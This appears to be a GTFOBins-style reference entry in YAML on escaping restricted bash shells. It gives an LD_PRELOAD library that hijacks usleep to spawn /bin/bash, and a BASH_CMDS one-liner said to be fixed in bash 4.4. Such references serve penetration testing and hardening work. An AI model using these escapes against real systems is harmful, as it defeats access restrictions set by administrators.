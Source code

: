 ```yaml
---
functions:
  shell:
    - description: Search binaries with ``echo *``, get ``objdump -T binary | grep GLIC`` and make a script to replace one of the functions (example with usleep).
      code: |
        vim script.c
        #include <stdio.h>
        #include <stdlib.h>
        void usleep() {
          unsetenv("LD_PRELOAD");
          system("echo ok! && /bin/bash");
          exit(0);
        }
        gcc -shared script.c -o script
        declare -x LD_PRELOAD=/path/to/script
    - description: This was fixed in bash 4.4 (see https://lists.gnu.org/archive/html/bug-bash/2017-03/msg00077.html)
      code: |
        BASH_CMDS[gtfo]=/bin/bash; gtfo
---
```

